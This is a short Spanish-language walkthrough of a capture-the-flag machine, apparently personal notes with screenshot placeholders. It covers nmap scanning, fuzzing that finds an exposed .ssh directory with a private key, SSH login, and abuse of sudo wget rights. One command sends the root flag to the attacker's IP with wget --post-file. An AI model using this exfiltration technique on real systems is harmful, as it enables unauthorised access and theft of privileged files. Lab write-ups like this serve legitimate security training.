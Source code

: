 Hacemos el escaneo con nmap:
![[Pasted image 20230924110158.png]]
Y esto es lo que corre por el puerto 80:
![[Pasted image 20230924110333.png]]
Si hacemos fuzzing nos encontramos con el directorio sitemap:
![[Pasted image 20230924110255.png]]
![[Pasted image 20230924110343.png]]
Si volvemos a hacer fuzzing, nos encontramos con un .ssh, pero debemos usar el diccionario de common.txt:
![[Pasted image 20230924110445.png]]
Donde nos encontramos con un id_rsa:
![[Pasted image 20230924110523.png]]
Nos lo guardamos:
![[Pasted image 20230924110602.png]]
Damos permisos 600 a este id_rsa y entramos a la máquina víctima:
![[Pasted image 20230924110828.png]]
Una vez dentro, ejecutamos sudo -l y podemos ver que podemos ejecutar como root el comando wget:
![[Pasted image 20230924110916.png]]
Por tanto vamos a subir como sudo la flag de root a nuestra máquina atacante:
```bash
sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.8.100.91
```
![[Pasted image 20230924111355.png]]
![[Pasted image 20230924111402.png]]
